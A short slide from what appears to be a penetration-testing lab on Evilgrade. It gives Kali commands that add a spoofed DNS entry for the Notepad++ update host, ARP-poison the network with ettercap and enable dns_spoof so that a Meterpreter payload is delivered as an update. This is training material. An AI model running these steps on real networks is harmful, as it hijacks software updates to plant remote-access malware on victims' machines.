

# Installation - Evilgrade
A common method for attackers to get  persistence on your network is to inject their  files during upgrade of existing tools.
In this lab we are using Notepad++ update  request to deliver Meterpreter.
•	In Kali (192.168.248.134):
# echo "notepad-plus.sourceforge.net A  192.168.248.134" >> /etc/ettercap/etter.dns
# ettercap -TqM arp:remote
Press P to see list of plugins
Plugin name (0 to quit): dns_spoof

•

BORROWED